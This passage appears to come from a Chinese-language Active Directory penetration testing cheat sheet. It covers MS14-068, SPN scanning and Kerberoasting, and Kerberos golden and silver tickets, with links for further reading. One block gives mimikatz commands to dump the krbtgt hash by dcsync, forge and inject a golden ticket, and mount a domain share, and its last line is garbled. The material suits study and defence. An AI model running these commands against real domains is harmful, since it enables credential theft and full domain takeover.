 相关阅读 :

- [Kerberos的工具包PyKEK](http://adsecurity.org/?p=676)
- [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
- [Kerberos的安全漏洞](https://adsecurity.org/?p=541)

##### SPN扫描

Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包。 SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内部帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户的手动注册SPN。 SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。 相关阅读 :

- [非扫描式的SQL Server发现](https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning/)
- [SPN扫描](https://adsecurity.org/?p=1508)
- [扫描SQLServer的脚本](https://github.com/PyroTek3/PowerShell-AD-Recon)

##### Kerberos的黄金门票

在域上抓取的哈希

```
lsadump::dcsync /domain:pentest.com /user:krbtgt

kerberos::purge

kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 
/ticket:adinistrator.kiribi

kerberos::ptt administrator.kiribi

kerberos::tgt

net use k: \pnet use k: \pentest.comc$
```

相关阅读 :

- https://adsecurity.org/?p=1640
- [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html)
- [Kerberos的认证原理](https://blog.csdn.net/wulantian/article/details/42418231)
- [深刻理解windows安全认证机制ntlm＆Kerberos](https://klionsec.github.io/2016/08/10/ntlm-kerberos/)

##### Kerberos的银票务

黄金票据和白银票据的一些区别： Golden Ticket：伪造`TGT`，可以获取`任何Kerberos`服务权限 银票：伪造TGS，`只能访问指定的服务` 加密方式不同： Golden Ticket由`krbtgt`的hash加密 Silver Ticket由`服务账号`（通常为计算机账户）Hash加密 认证流程不同： 金票在使用的过程需要同域控通信 银票在使用的过程不需要同域控通信 相关阅读 :

- [攻击者如何使用Kerberos的银票来利用系统](https://adsecurity.org/?p=2011)
- [域渗透——Pass The Ticket](https://www.feiworks.com/wy/drops/域渗透——Pass The Ticket.pdf)

##### 域服务账号破解

与上面SPN扫描类似的原理 https://github.com/nidem/kerberoast 获取所有用作SPN的帐户
